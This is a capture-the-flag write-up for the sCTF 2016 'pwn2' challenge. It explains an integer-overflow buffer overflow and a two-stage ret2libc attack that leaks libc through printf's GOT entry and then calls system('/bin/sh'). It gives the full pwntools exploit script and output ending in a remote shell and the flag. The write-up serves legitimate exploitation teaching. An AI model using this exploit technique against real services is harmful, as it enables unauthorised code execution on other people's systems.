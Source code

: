 ### Solved by superkojiman and Swappage

On to pwn2! This binary was changed at some point during the competition. Initially there was a function that had a `syscall` instruction. Unfortunately this didn't work on 32-bit binaries, so the solution we came up with worked around it. After the binary was updated, the `syscall` was changed to `int 0x80` to allow for 32-bit ROPing, but they allowed us to keep the points.

When we connect to the service we're first prompted for the number of bytes we want to input. The maximum it will take is 32 bytes; anything greater will result is an error. After that, we're prompted for some input, and it basically reads in the number of bytes we specified earlier. 

The first vulnerability is an integer overflow. Entering a negative number results in tricking the binary into accepting a much larger value which will cause a buffer overflow:

```
# ./pwn2
How many bytes do you want me to read? -1
Ok, sounds good. Give me 4294967295 bytes of data!
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
You said: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Segmentation fault (core dumped)
```

Half the battle won! The binary has NX, and we assumed that ASLR was enabled on the server. We decided to leak printf()'s address in libc by returning to printf@plt and making it print its GOT entry. Once we had printf()'s address, we used [libc-database](https://github.com/niklasb/libc-database) to identify the libc version and obtain printf()'s offset. 

With the offset obtained, subtracting that from the leaked address gave us libc's base address. Using libc-database, we got the offsets for system() and "/bin/sh", which allowed us to get their addresses by adding them to libc's base address. Everything we needed to execute system("/bin/sh") was ready, so we just set printf() to return to vuln() so we could overwrite EIP all over again, and this time return to system(). Here's the exploit: 

```python
#!/usr/bin/env python

from pwn import *
#r = remote("localhost", 2323)
r = remote("problems2.2016q1.sctf.io", 1338)

buf = ""
buf += "A"*48
buf += p32(0x08048370)           # printf@plt
buf += p32(0x0804852f)           # return to vuln()
buf += p32(0x08048702)           # str: .... %s ....
buf += p32(0x0804a00c)           # ptr to printf@got

print "++++ STAGE 1 ++++"

# send size of bytes to read
print r.recv()
r.sendline("-1")
print r.recv()

# send first stage payload to leak libc addr
# returns to printf@plt to leak addr of printf@got and getchar@got
print "Sending stage 1 payload: leak libc"
r.sendline(buf)
r.recv()
d = r.recv()    # get leaked addresses

# leaked printf@got
addr_printf  = u32(d[:4])
print "addr_printf ", hex(addr_printf)

# used libc-database to identify libc version, and obtain printf()'s offset
# ubuntu-trusty-i386-libc6 (id libc6_2.19-0ubuntu6.6_i386)
offset_printf  = 0x0004d280

# libc base address
libc_base = addr_printf - offset_printf
print "libc_base", hex(libc_base)

# libc-database found these offsets for system() and "/bin/sh"
system_addr = libc_base + 0x00040190
bin_sh_addr = libc_base + 0x160a24

print "system_addr", hex(system_addr)
print "/bin/sh addr", hex(bin_sh_addr)

print ""
print "++++ STAGE 2 ++++"

# stage 2, overwrite EIP all over again, but this time we have system("/bin/sh") to return to
buf = ""
buf += "A"*48
buf += p32(system_addr)
buf += "XXXX"
buf += p32(bin_sh_addr)

r.sendline("-1")
print r.recv()

print "Sending stage 2 payload: system(\"/bin/sh\")"
r.sendline(buf)
print r.recv()

print "VulnHub FTW!"
r.interactive()
```

And finally, the exploit in action returning the flag: 

```
# ./sploit.py
[+] Opening connection to problems2.2016q1.sctf.io on port 1338: Done
++++ STAGE 1 ++++
How many bytes do you want me to read?
Ok, sounds good. Give me 4294967295 bytes of data!

Sending stage 1 payload: leak libc
addr_printf  0xb7610280
libc_base 0xb75c3000
system_addr 0xb7603190
/bin/sh addr 0xb7723a24

++++ STAGE 2 ++++
Ok, sounds good. Give me 4294967295 bytes of data!

Sending stage 2 payload: system("/bin/sh")
You said: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x901`\xb7XXXX$:r\xb7

VulnHub FTW!
[*] Switching to interactive mode
$ id
uid=1001(pwn2) gid=1001(pwn2) groups=1001(pwn2)
$ ls
flag.txt
pwn2
$ cat flag.txt
sctf{r0p_70_th3_f1n1sh}
```
